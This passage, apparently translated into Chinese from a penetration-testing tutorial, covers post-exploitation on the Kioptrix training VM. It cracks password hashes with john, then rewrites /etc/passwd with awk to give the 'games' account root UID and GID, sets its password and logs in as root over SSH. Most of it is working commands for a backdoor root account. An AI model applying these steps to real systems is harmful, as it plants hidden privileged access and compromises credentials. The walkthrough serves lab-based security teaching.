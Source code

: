 现在我们有了必要的文件，我们可以使用 john 尝试破解 `kioptrixPW.db`中的哈希。

### 注

请注意，破解密码可能需要几分钟、几小时甚至几天，具体取决于所使用密码的复杂性。。。

```
# root@bt:/pentest/passwords/john# john /root/kioptrixFiles/kioptrixPW.db 

```

在不使用漏洞的情况下访问系统的更快方法是修改现有帐户。使用 samba（或任何其他允许 root 访问的漏洞）打开 Kioptrix 机器的 shell，然后键入以下内容以更改游戏帐户，使其足以允许登录和 root 访问。

```
cd /etc
awk -F ":" 'BEGIN{OFS = ":"} $1 == "games" {$3="0"}{$4="0"}{$7="/bin/bash"}{ print }' passwd > test 

```

由于反向 shell 中对我们施加的限制，我们使用 `awk`创建文件的修改版本。我们将用户和组 UID 更改为 root 用户和组 UID，并添加 `/bin/bash`shell，以便远程登录。

```
cp passwd passwdOLD 

```

在更改任何现有文件之前，我们应该先备份它们。这在为客户机执行测试时尤为重要。

```
cp test passwd 

```

我们复制修改后的测试文件以覆盖 `passwd`。

```
chmod 644 passwd 

```

将权限更改回与原始文件的权限相匹配可能会避免将来的复杂性。

```
passwd games 
New password: 1funnypassword
Retype new password: 1funnypassword
Changing password for user games
passwd: all authentication tokens updated successfully

```

我们向游戏帐户添加密码。当前 SSH 帐户不允许使用空密码。

在回溯机器上打开一个新终端，并使用新帐户连接回 Kioptrix。使用您为游戏帐户创建的密码（如果您严格遵守，请使用 1funnypassword）：

```
root@bt:~/kioptrixFiles# ssh -l games 192.168.75.14 
games@192.168.75.14's password:
Last login: Mon Jan 9 00:35:42 2012 from 192.168.75.25
bash-2.05# whoami 
root

```
